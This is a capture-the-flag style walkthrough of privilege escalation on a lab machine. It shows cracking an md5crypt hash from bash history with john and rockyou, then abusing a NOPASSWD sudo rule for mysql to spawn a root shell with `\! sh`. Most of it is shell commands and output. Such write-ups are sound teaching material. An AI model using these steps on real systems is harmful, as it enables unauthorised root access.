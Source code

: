 ```shell-session
$ sudo -l
sudo -l
Matching Defaults entries for dawn on dawn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dawn may run the following commands on dawn:
    (root) NOPASSWD: /usr/bin/mysql
```


However the mysql password is required anyway, and I don't have it yet. Unless...

---

## Privilege escalation #1: MySQL shell

There is a very hash-looking string in the bash history, it looks like md5crypt:

```shell-session
$1$$bOKpT2ijO.XcGlpjgAup9/
```

The hash is cracked by john in a few minutes, giving it to the program without any flags lets it recognize as an md5crypt so I adjust the options and choose the rockyou.txt dictionary:

```shell-session
[root@fooxy dawn]# john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
onii-chan29      (?)
1g 0:00:10:24 DONE (2019-09-11 15:51) 0.001601g/s 7746p/s 7746c/s 7746C/s onina666..onigz24
Use the "--show" option to display all of the cracked passwords reliably
Session completed
[root@fooxy dawn]# john --show hash
?:onii-chan29

1 password hash cracked, 0 left
```

As it turns out, onii-chan29 is the password of the root user in MySQL and it can be used to spawn a shell with *\\! sh*:

```shell-session
dawn# sudo mysql -u root -p                                                    
sudo mysql -u root -p
Enter password: onii-chan29

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 23
Server version: 10.3.15-MariaDB-1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> \! sh
\! sh
# whoami
whoami
root
# cat /root/flag.txt                                                             
cat /root/flag.txt
```